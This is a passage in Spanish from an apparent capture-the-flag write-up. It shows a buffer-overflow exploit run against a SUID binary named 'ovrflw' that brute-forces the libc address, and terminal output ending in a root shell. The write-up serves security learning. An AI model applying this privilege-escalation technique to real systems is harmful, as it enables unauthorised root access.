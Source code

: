 Como el programa tiene permisos SUID, podemos ejecutarlo temporalmente como el propietario, en este caso **root**. Ejecutamos el script que hicimos y tenemos que esperar a que el valor de *libc* sea el que nosotros le indicamos; para este caso `0xb75c7000`. En caso de que llevemos un buen rato y no vemos el símbolo `#` de la `/bin/sh`, podríamos probar con otro valor de *libc* sin alterar el programa.

```bash
www-data@october:~$ python bof.py 
*** Error in `/usr/local/bin/ovrflw': munmap_chunk(): invalid pointer: 0xbff7fe7b ***
*** Error in `/usr/local/bin/ovrflw': free(): invalid pointer: 0x08048380 ***
*** Error in `/usr/local/bin/ovrflw': munmap_chunk(): invalid pointer: 0xbfb91e7b ***
Syntax: Z
         $$D$
              <input string>
ovrflw: uv
          :3217394944: 6#: Assertion `' failed.
Syntax: Z
         $$D$
              <input string>
# whoami
root
#
```

A este punto ya somos el usuario **root** y podemos visualizar la flag (root.txt).
